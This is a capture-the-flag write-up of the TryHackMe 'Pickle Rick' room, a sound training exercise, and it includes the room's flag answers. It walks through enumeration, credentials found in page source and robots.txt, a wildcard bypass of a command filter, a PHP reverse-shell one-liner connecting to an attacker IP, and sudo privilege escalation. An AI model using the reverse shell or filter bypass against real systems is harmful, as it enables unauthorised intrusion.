 # Writeup Pickle Rick challenge (THM)

![logo_machine](https://tryhackme-images.s3.amazonaws.com/room-icons/47d2d3ade1795f81a155d0aca6e4da96.jpeg)

The following challenge is hosted by TryHackMe and aims at exploiting a web server in order to find three ingredients in order to help Rick, who wants to create a potion.
Let's begin.

## Target enumeration

As usual, we start analyzing the target by launching *nmap* command:
```
nmap -sV -A -T4 10.10.38.165 -oN nmap.txt
```
As a result we obtain that ports 22 (ssh) and 80 (http) are open.

Let's examine the website.

## Website

Inspecting the source code, we immediately find this comment:

*Note to self, remember username! Username: R1ckRul3s*

So, we jot down the username *R1ckRul3s*.

In the */robots.txt* page we find a mysterious string, i.e.: *Wubbalubbadubdub*.

If we try to connect to port 22 (ssh) using as username R1ckRul3s and as password Wubbalubbadubdub doesn't work (permission denied), so we need to discover where these credentials can be used.
So, we launch *gobuster* in order to discover other potential paths, we the following command (note the *x* option, where we look for files with php extension, too):

```
gobuster -w <path/to/wordlist/>directory-list-2.3-small.txt -u http://<target_ip>/ -t 20 -x php
```

As a result we obtain these paths:

* /login.php (Status: 200)
* /assets (Status: 301)
* /portal.php (Status: 302)


Yep! We found the place to insert the above-mentioned credentials: *login.php*.

![img3](/images/pickle_rick-thm/img3.png?raw=true)


## First ingredient

Once logged in, we land in a web page with a menu with some options on the top. The most interesting tab is *Commands*. Indeed, here we can find an input form, where we can run shell commands.

For example, if we type the ```ls``` command, we can get the following results:
* **Sup3rS3cretPickl3Ingred.txt**
* assets
* clue.txt
* denied.php
* index.html
* login.php
* portal.php
* robots.txt

Immediately, we notice the Sup3rS3cretPickl3Ingred.txt file. However, if we try to cat it, a filter is placed:

![img4](/images/pickle_rick-thm/img4.png?raw=true)


In order to bypass it, we used metacharacters for pattern matching ([link](https://www.linux.com/topic/desktop/introduction-regular-expressions-new-linux-users/)). For example, with this command we can retrieve the data in the file:

```
/bin/c?t Sup3rS3cretPickl3Ingred.txt
```

![img5](/images/pickle_rick-thm/img5.png?raw=true):

Great! First flag found.


## Second ingredient

* read *clue.txt* file with ```/bin/c?t clue.txt``` and it states:
*Look around the file system for the other ingredient.*

* in */home/rick* there is *second ingredients* file (```ls -l /home/rick```)

* lets cat it: ```/bin/c?t "/home/rick/second ingredients"``` (fai reference a livello
  di bandit in cui spiego come si fa cat in file che contiene spazie nel nome)

  2nd ingredient: 1 jerry tear

## Third ingredient

* rev shell using php

![img6](/images/pickle_rick-thm/img6.png?raw=true):

```
php -r '$sock=fsockopen("10.8.12.35",1234);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

* cat php files in order to understand how to open other tabs in portal.php page

* use ```sudo -l``` to priv esc, result:
```
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-100-151.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-100-151.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
so all the commands can be run by www-data

* then:

![img7](/images/pickle_rick-thm/img7.png?raw=true)

3rd ingredient: fleeb juice
